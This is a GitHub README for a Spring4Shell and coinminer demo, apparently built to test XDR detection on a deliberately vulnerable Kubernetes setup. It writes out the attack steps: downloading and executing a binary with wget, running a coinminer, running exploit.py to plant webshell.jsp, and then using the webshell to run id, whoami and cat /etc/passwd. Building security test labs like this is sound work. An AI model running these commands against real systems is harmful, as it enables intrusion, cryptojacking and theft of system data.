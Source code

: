 # Spring4Shell and Coinminer PoC

## This is for testing and demo purpose
### Setup the vulnerable environment on GKE (Google Kubernetes Engine)
Apply for the provided YAML file:
```sh
$ kubectl apply -f jie_xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```
Once the the 2 pods and 1 services are created successfully, use the following command to check the STATUS:
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Now, you have 2 vulnerable pods. One is for coinminer and another one is for Spring4Shell


### Use cases
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

#### Exploit the Spring4Shell service
Check the output of the `kubectl get all` and find out the EXTERNAL-IP for your deployed service. Open your browser and connect to it.


![WebPage](screenshots/checkService.png?raw=true)

Once you see the above, you are good to exploit it.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
